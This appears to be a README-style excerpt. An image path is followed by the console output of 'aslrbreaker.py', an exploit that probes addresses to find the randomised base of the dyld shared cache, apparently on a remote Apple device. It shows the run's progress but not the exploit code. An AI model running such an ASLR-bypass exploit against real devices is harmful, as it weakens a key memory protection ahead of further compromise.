 ```
&gt; ./aslrbreaker.py
[!] Note: this exploit *deliberately* displays notifications to the target
[*] Trying to find a valid address...
[*] Testing address 0x180000000...
[*] Testing address 0x188000000...
[*] Testing address 0x190000000...
[*] Testing address 0x198000000...
[*] Testing address 0x1a0000000...
[*] Testing address 0x1a8000000...
[*] Testing address 0x1b0000000...
[*] Testing address 0x1b8000000...
[*] Testing address 0x1c0000000...
[+] 0x1c0000000 is valid!
[*] Have 34353 potential candidates for the dyld_shared_cache slide
[*] Shared cache is mapped somewhere between 0x181948000 and 0x203d64000
[*] Now determining exact base address of shared cache...
[*] 34353 candidates remaining...
[*] Best (approximated) address to probe is 0x1b12070d0 with a score of 17208.40
[*] 17906 candidates remaining...
[*] Best (approximated) address to probe is 0x1b8a353d8 with a score of 9144.48
[*] 9656 candidates remaining...
[*] Best (approximated) address to probe is 0x1bcb23de0 with a score of 5093.02
[*] 5104 candidates remaining...
[*] Best (approximated) address to probe is 0x1e172e3f8 with a score of 2754.83
[*] 2682 candidates remaining...
[*] Best (approximated) address to probe is 0x1b363c658 with a score of 1454.06
[*] 1728 candidates remaining...
[*] Best (approximated) address to probe is 0x1e0301200 with a score of 929.21
[*] 915 candidates remaining...
[*] Best (approximated) address to probe is 0x1b0c04368 with a score of 497.63
[*] 593 candidates remaining...
[*] Best (approximated) address to probe is 0x1e0263068 with a score of 319.15
[*] 326 candidates remaining...
[*] Best (approximated) address to probe is 0x1bec43868 with a score of 163.84
[*] 156 candidates remaining...
[*] Best (approximated) address to probe is 0x1c15ab0e8 with a score of 78.21
[*] 82 candidates remaining...
[*] Best (approximated) address to probe is 0x1c49efe90 with a score of 41.02
[*] 40 candidates remaining...
[*] Best (approximated) address to probe is 0x1befd60f8 with a score of 20.00
[*] 20 candidates remaining...
[*] Best (approximated) address to probe is 0x1c14089d0 with a score of 10.00
[*] 10 candidates remaining...
[*] Best (approximated) address to probe is 0x1c428d450 with a score of 5.00
[*] 5 candidates remaining...
[*] Best (approximated) address to probe is 0x1df0939f0 with a score of 2.60
[*] 2 candidates remaining...
[*] Best (approximated) address to probe is 0x1c3d255f8 with a score of 1.00
[+] Shared cache is mapped at 0x1bf2b4000
```
